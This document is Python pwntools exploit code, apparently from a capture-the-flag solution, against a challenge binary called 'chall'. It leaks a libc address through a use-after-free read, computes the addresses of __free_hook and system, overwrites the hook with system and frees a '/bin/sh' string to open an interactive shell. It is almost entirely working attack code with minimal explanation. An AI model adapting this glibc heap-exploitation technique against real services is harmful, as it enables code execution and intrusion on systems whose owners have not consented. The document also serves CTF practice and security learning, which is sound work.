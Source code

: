 ```
	temp=target[-18:-8] #as is processd by int, get 4bytes with 0x of _free_hook address
	print(temp)
	pc.sendlineafter(">","4")
	pc.sendlineafter(">",str(no))
	pc.sendlineafter(">",str(a+1))
	pc.sendlineafter(">",str(int(temp,16)))
	print("==Write {}-{} as {}==".format(no,a,target))

pc=connect('localhost',9102)
#pc=process('./chall')

libc=ELF('./libc-2.31.so')

print("\n=====Leaking libc address=====")
gacha(100)
gacha(100) #To avoid zero count check
gacha(500)
gacha(200)
clear()

libc_raw = gacha(200)[-21:] # Read after free
#processing returned libc address
libc_leak =libc_raw[1:7]+libc_raw[12:-1]
libc_leak=libc_leak.decode("utf-8")
libc_leak=int(libc_leak,16)

#calculating address
libc_base = libc_leak-0x1ebbe0
free_hook = hex(libc_base+libc.symbols['__free_hook'])
system = hex(libc_base+libc.symbols['system'])

print("\n=====Result=====")
print('libc_leak <main_arena+96> : ',hex(libc_leak))
print('libc_base :',hex(libc_base))
print('__free_hook :',free_hook)
print('system :',system)

print("\n=====Preparing writing at __free_hook=====")
ceiling(0,0,free_hook)

print("\n=====Reset history before malloc at __free_hook=====")
gacha(10)
gacha(10)

print("\n=====Malloc at __free_hook=====")
gacha(100)
gacha(100) # at __free_hook

print("\n=====Writing system at __free_hook=====")
ceiling(1,0,system)

print("\n=====Writing /bin/sh for free hook=====")

binsh="0x" #Write binsh in hex, little endian
for a in "/bin/sh"[::-1]:
	binsh+=str(hex(ord(a)))[2:]

gacha(2)
ceiling(2,0,hex(int(binsh,16)))
print("\n=====Shelllllllllllllll=====")
clear()
pc.interactive()
```